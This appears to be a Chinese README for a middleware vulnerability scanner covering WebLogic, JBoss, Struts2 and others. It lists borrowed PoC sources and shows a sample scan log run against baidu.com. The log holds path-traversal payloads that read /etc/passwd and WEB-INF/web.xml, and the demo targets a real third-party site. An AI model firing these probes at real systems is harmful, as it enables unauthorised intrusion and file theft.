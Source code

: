 1.  
最近在看web中间件的漏洞  
看到一个三年前的脚本：https://github.com/ywolf/F-MiddlewareScan  
想着自己写一个中间件相关的，正是脚本好写，poc和exp难  
github链接：https://github.com/nihaohello/N-MiddlewareScan  
  
  
  
2.  
#plugins vuln poc exp  
主要是下面模块：  
1.axis  
xss  弱密码  
2.glashfish  
3.jboss  
4.resin  
5.weblogic  
6.tomcat  
7.struts2  
8.IIS  
9.fastcgi  
10.phpcgi  
11.apache  
12.nginx  
13.spring mvc  
  
  
借用和拉用了（有些也许没有写到）：  
axis，glassfish，nginx，iis：  
https://github.com/rabbitmask/WeblogicR  
  
  
jboss:  
https://github.com/search?l=Python&q=jboss&type=Repositories  
https://github.com/SkewwG/VulScan/blob/master/Jboss/CVE-2017-12149.py  
  
weblogic:  
https://github.com/search?l=Python&q=weblogic&type=Repositories  
https://www.exploit-db.com/  :有poc  
https://nvd.nist.gov/vuln/detail/CVE-2017-10271  
https://www.oracle.com/technetwork/topics/security/cpuoct2017-3236626.html  
https://github.com/rabbitmask/WeblogicR    poc来自这  
https://github.com/kingkaki/weblogic-scan  
  
  
tomcat:  
https://github.com/search?l=Python&q=tomcat&type=Repositories  
https://github.com/SkewwG/VulScan  
  
  
struts2:  
https://github.com/search?l=Python&q=struts2&type=Repositories  
  
  
spring：  
http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=spring  
https://www.exploit-db.com/  18年  
  
  
  
  
  
  
3.  
测试例子：  
python N-MiddlewareScan.py -u https://www.baidu.com  
  
第一部分standard_poc 测试开始:  
***********************  
https://www.baidu.com  CVE_2018_10661 测试结束  
https://www.baidu.com/axis2/axis2-web/HappyAxis.jsp信息扫描完成  
https://www.baidu.com/axis2/axis2-admin/login弱口令扫描完成  
https://www.baidu.com/j_security_check?loginButton=Login 测试结束  
https://www.baidu.com  exist Directory_traversal vuln 测试结束  
https://www.baidu.com/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo 扫描完成  
https://www.baidu.com/web-console/Invoker 扫描完成  
https://www.baidu.com/invoker/JMXInvokerServlet 扫描完成  
https://www.baidu.com/admin-console/ 扫描完成  
https://www.baidu.com/resin-admin/j_security_check?j_uri=index.php扫描完成  
https://www.baidu.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd扫描完成  
https://www.baidu.com/resin-doc/viewfile/?contextpath=/otherwebapp&servletpath=&file=WEB-INF/web.xml扫描完成  
https://www.baidu.com/%20..\web-inf扫描完成  
https://www.baidu.com/%3f.jsp扫描完成  
https://www.baidu.com/resin-doc/examples/jndi-appconfig/test?inputFile=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd扫描完成  
  
  
  
第一部分 standard_poc 没有测试出任何的漏洞。  
  
  
  
第二部分：  
开始测试特定的poc脚本：  
***********************  
对tomcat weak password 进行检测  
CVE_2015_4852 脚本出错  
CVE_2016_0638 脚本出错  
CVE_2016_3510 脚本出错  
CVE_2017_3248 脚本出错  
[-]目标weblogic未检测到CVE-2017-3506  
CVE_2018_2893 脚本出错  
CVE_2018_2628 脚本出错  
managerURL200 脚本出错  
uddi_ssrf 脚本出错  
CVE_2017_12149 检测函数出错  
https://www.baidu.com  
[36mCode by Lucifer.[0m  
[36m-------检测struts2漏洞--------  
目标url:https://www.baidu.com[0m  
[32m目标不存在struts2-005漏洞..[0m  
[32m目标不存在struts2-009漏洞..[0m  
[32m目标不存在struts2-013漏洞..[0m  
[36m检测struts2-016超时..[0m  
超时原因:  HTTPSConnectionPool(host='www.baidu.com', port=443): Read timed out. (read timeout=6)  
[32m目标不存在struts2-019漏洞..[0m  
[36m检测struts2-devmode超时..[0m  
超时原因:  HTTPSConnectionPool(host='www.baidu.com', port=443): Read timed out. (read timeout=6)  
[32m目标不存在struts2-032漏洞..[0m  
[32m目标不存在struts2-033漏洞..[0m  
[32m目标不存在struts2-037漏洞..[0m  
[32m目标不存在struts2-045漏洞..[0m  
[32m目标不存在struts2-046漏洞..[0m  
[32m目标不存在struts2-048漏洞..[0m  
[32m目标不存在struts2-020漏洞..[0m  
[32m目标不存在struts2-052漏洞..[0m  
[32m目标不存在struts2-053漏洞..[0m  
[32m目标不存在struts2-057漏洞..(只提供检测)[0m  
[-]不存在SpringCVE-2017-8046漏洞!  
[-] https://www.baidu.com 不存在IIS PUT上传  
Server 不存在 IIS shortname vulnerable  
Server 不存在 IIS shortname vulnerable  
[-]不存在Nginx越界读取缓存漏洞（CVE-2017-7529）漏洞...(低危)  
  
  
相关漏洞检测完成。  
